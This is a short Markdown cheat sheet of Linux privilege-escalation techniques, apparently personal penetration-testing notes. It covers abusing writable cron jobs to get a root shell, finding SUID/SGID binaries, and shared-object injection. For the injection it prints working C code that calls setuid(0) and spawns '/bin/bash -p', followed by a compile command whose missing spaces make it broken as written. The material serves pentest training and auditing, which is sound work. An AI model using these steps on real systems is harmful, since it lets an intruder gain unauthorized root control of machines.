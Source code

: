 
## Cron Jobs

### Common Directories

System-wide: `/etc/crontab`
User crontabs:
```
/var/spool/cron
/var/spool/cron/crontabs
```

### Misconfigurations

See you can modify a cronjob file, or if you can modify the PATH used by crontab. If crontab itself is writeable, you can add your own to run as root every minute to give you a shell.

---

## SUID / SGID

Locate with: 
```bash
find / -type f -perm -u=s 2>/dev/null
```
OR
```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null
```

### Shared Object Injection

If you have SUID/SGID file like above, check the .so files loaded with strace:
`strace /usr/local/bin/program 2>&1 | grep -iE "open|access|no such file"`

If it returns an .so file that doesn't exist (no such file), check with `ls` if you can write to the directory. If you can, the create a .c file containing the following:

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
	setuid(0);
	system("/bin/bash -p");
}
```

Compile it: `gcc-shared -fPIC-o /path/to/shared_library.so inject.c`

Then run the SUID/SGID file.


